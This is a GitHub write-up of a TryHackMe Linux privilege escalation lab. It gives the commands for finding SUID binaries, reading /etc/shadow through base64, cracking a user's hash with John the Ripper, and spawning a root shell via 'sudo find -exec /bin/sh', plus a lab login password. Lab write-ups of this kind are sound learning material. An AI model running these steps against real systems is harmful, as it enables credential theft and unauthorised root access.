










# THM Linux PrivEsc
This repository contains my technical walkthrough for a Linux Privilege Escalation challenge on TryHackMe. The exploitation path involves misconfigured SUID binaries and insecure sudo permissions.

## Phase 1: Log in
First of all we need to log in as a leonard, we con do this with ssh connection
```bash
ssh leonard@<machine_ip>
```
Then it will ask you about password, you can write the given password which is **Penny123**

## Phase 2: Enumeration
The first step was identifying potential escalation vectors. I searched for SUID (Set Owner User ID) binaries using the following command:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
This command will help us find all files on the system that have the SUID bit set, which can be potential privilege escalation points.



As you can see the in the first sentence binary /usr/bin/base64 was found with SUID permissions. Since this binary belongs to root, it can be used to read sensitive system files.

## Phase 3: Gathering Information

Now we know that we can run base64 commands so now you need to create a file in your computer. After that create 2 txt file in the configs(you can change the file name) file which is named "passwd.txt" and "shadow.txt":
```bash
mkdir configs
cd configs
touch passwd.txt
touch shadow.txt
```

Okay, now let's execute some commands in the target machine. Using this command, we can read the original contents of /etc/shadow, first part for the encoding and the second part(after the pipe) is for decode.
```bash
base64 /etc/shadow | base64 -d
```

Then copy Missy's value into the shadow.txt file. After that use this command:
```bash
base64 /etc/passwd | base64 -d
```


# Phase 4: Cracking
And again copy the Missy's value into the passwd.txt file.
Now use unshadow in your machine for the combine this 2 file and use John the Ripper to crack Missy's password:
```bash
sudo unshadow passwd.txt shadow.txt > cracked.txt
# You can change the wordlist direction or the wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt cracked.txt
```


We found Missy's password! Now we can change the user with:
```bash
su missy
```
And hit the password.
**sudo -l** shows us that missy do not need a password

Now we can find the flag1.txt file, after we find the file path we can capture the flag. For this we gonna use this command:
```bash
sudo find / -name "flag1.txt"
```


# Phase 5: Flag2

Now let's head to the flag2, for this let's use previous command again. As you can see below if we try to capture the flag2.txt it will say Permission denied.

We can bypass this with this command
```bash
sudo find . -exec /bin/sh \; -quit
```
Now we are root! This command uses sudo to run find, which executes /bin/sh and immediately spawns a root shell before quitting. Let's try capturing the flag2 again:



## Conclusion
I hope that will help someone because that lab is really challenged me, but it was very entertaining lab and when I am completed i felt really good. Thanks for reading!


